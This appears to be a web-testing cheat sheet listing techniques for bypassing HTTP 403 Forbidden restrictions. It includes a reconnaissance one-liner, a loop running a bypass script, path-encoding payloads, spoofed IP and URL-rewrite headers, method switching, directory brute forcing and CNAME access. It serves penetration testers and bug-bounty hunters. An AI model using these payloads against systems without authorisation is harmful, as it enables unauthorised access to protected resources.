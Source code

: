 <h1> Bypassing 403 Responses </h1> <br>
<b> Install 403 bypass onto Burpsuite from the extender tool, this then becomes an extension you can run on 403 pages on Burpsuite </b></p> <br>
Further automated tool - https://github.com/iamj0ker/bypass-403 <br>
<b> Quick One Liner for 403 codes - subfinder -d domain.com — silent | httpx -fc 200,301,302,500,503,404,501 -sc | tee 403.txt </b>
sudo mv 403.txt /directory of 403-bypass <br>
for i in $(cat 403.txt); do ./bypass-403.sh $i;done <br>

<br>

<h2> Directory Brute Forcing </h2><br>
Bruteforce the URL path on the 403 directory. Use different wordlists and experiment to see if you can access further pages after the 403 directory <br>
/access/user - 403    /access/user/properties.json  - 200 OK <br>
<br>

<h2> URL Paths </h2> <br>
Adding the following within the URL and the file that is 403'd or after the file that is 403'd<br>
admin/* <br>
admin/%2f/ <br>
admin/./ <br>
admin/ <br>
admin/*/ <br> 
admin/..;/ <br>
admin/..%3B/ <br> 
/*admin <br>
/%2fadmin/ <br>
/./admin <br>
/*/admin <br> 
/..;/admin <br>
/..%3B/admin <br> 
<br>
This is common on Apache Tomcat <br>

<h2> Change request methods </h2> <br>
Don't just send a get request, try POST, PATCH, PUT, GET, TRACE <br>
Try curl -H "Content-Length:0" -X POST https://www.domain/403'dpage
<br>

<h2> Add .json to the end of the file name, or brute force a .json file endpoint after the 403 file </h2>
  /api/user - 403 <br>
  /api/user/properties.json - 200 OK
<br>
  <h2> HTTP Headers </h2> <br>
  Change Host header to value of a subdomain, google.com etc <br>
  <br>
  Fuzz headers that may allow you to bypass <br>
X-Originating-IP: 127.0.0.1 <br>
X-Forwarded-For: 127.0.0.1 <br>
X-Forwarded: 127.0.0.1 <br>
Forwarded-For: 127.0.0.1 <br>
X-Remote-IP: 127.0.0.1 <br>
X-Remote-Addr: 127.0.0.1 <br>
X-ProxyUser-Ip: 127.0.0.1 <br>
X-Original-URL: 127.0.0.1 <br>
Client-IP: 127.0.0.1 <br>
True-Client-IP: 127.0.0.1 <br>
Cluster-Client-IP: 127.0.0.1 <br>
X-ProxyUser-Ip: 127.0.0.1 <br>
Host: localhost <br>
  
  <br>
  If the path is protected you can try the following headers <br>
 X-Original-URL: /path/file <br>
X-Rewrite-URL: /path/file <br> 
  Your normal request would be a request to / with the headers identifying the actual path. <br>
  <br>
  <h2> Path Fuzzing </h2> <br>
    if /admin is blocked : <br>
Try using /%2e/admin _(if the access is blocked by a proxy, this could bypass the protection). Try also_** /%252e**/admin (double URL encode) <br>
Try Unicode bypass: /%ef%bc%8fadmin (The URL encoded chars are like "/") so when it's encoded back it will be //path and maybe you will have already bypassed the /path name check <br>
    <br>
site.com/secret –> HTTP 403 Forbidden <br>
site.com/SECRET –> HTTP 200 OK <br>
site.com/secret/ –> HTTP 200 OK <br>
site.com/secret/. –> HTTP 200 OK <br>
site.com//secret// –> HTTP 200 OK <br>
site.com/./secret/.. –> HTTP 200 OK <br>
site.com/;/secret –> HTTP 200 OK <br>
site.com/.;/secret –> HTTP 200 OK <br>
site.com//;//secret –> HTTP 200 OK <br>
site.com/secret.json –> HTTP 200 OK (ruby) <br> 
<br>
 For unicoding, if you are trying to access /admin -403, try adding all the unicode characters in this list within the path https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Unicode.txt <br>
The request would be /FUZZadmin - /FUZZ/admin - /adminFUZZ <br>
<br>
  <h2> accessing via cname </h2> <br>
  Should you come across a 403 subdomain, try accessing via it's cname. - dig domain.com or use the site - https://dnschecker.org/cname-lookup.php <br>
